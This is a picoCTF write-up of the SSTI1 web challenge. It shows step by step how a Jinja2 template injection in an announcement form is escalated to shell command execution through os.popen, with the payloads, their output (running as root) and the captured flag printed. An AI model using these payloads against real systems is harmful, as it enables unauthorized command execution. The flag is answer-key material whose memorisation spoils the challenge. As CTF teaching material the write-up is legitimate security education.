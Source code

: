 >> picoCTF — SSTI1 (Server-Side Template Injection) Writeup

**Challenge:** SSTI1 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Easy

---

## Description
> I made a cool website where you can announce whatever you want! Try it out!  
> Additional details will be available after launching your challenge instance.

The application provides a simple announcement form (an input named `content`) that reflects the submitted text back to the page. I interacted with the site through the web UI (entered payloads into the form and submitted) to confirm SSTI and to escalate to command execution.

> **Warning:** The techniques below are for CTF/educational purposes only. Do not use them on systems without explicit authorization.

---

## Summary
By submitting specially crafted template expressions in the announcement form, the server evaluated Jinja2/Python expressions. Starting from a basic arithmetic test, I used introspection to access Python globals and `os.popen`, enumerated the application directory, and read the `flag` file. All interaction was done using the website form (no `curl`).

---

## Tools
- Web browser (to open the challenge page and submit the announcement form)  
- Optional: a text editor to prepare payloads before copying into the form

---

## Steps — Browser interaction (what I did)

### 1. Open the challenge page
I loaded the challenge instance in my browser and located the announcement form:

![Step 1](images/1.png)

```html
<form action="/" method="POST">
  What do you want to announce: <input name="content" id="announce">
  <button type="submit"> Ok </button>
</form>

```
![Step 2](images/2.png)

+ The form posts content to / and reflects the announcement back to the page.

### 2. Confirm SSTI with a simple arithmetic test

+ I entered the payload into the input field:

```bash
{{7*7}}
```
![Step 3](images/3.png)

+ Then I submitted the form. The page returned and showed:
```bash
49
```

![Step 4](images/4.png)

+ This confirmed the server is evaluating template expressions (SSTI).

### 3. Escalate to command execution via Python builtins

+ To import modules and run shell commands, I used Python introspection through the request object available in the template context. I entered:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
![Step 5](images/5.png)

+ After submitting the form, the page reflected:

```bash
uid=0(root) gid=0(root) groups=0(root)
```

![Step 6](images/6.png)

+ This shows the process is running as root, and that os.popen() is usable to execute shell commands.


### 4. Enumerate files in the working directory

+ Next, I listed files by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
![Step 7](images/7.png)

+ The page returned:

```bash
__pycache__
app.py
flag
requirements.txt
```

![Step 8](images/8.png)

+ This confirmed a flag file exists in the application directory.


### 5. Read the flag file

+ Finally, I retrieved the flag by submitting:

```bash
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

![Step 9](images/9.png)

+ The page returned the flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
![Step 10](images/10.png)

## Final Flag:
```bash
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_09365533}
```
---
## Analysis & Notes

+ The content field was rendered inside a server-side template and evaluated as a Jinja2/Python expression — classic SSTI.

+ Using request.application.__globals__.__builtins__.__import__('os') allowed importing os from within the template sandbox (when direct import is unavailable). From there os.popen() executed shell commands.

+ The server process was running as root, which made reading local files trivial. In production systems, running app processes as root is insecure.

+ Important: all actions above were performed by typing payloads into the web form and submitting — no CLI tooling was required.

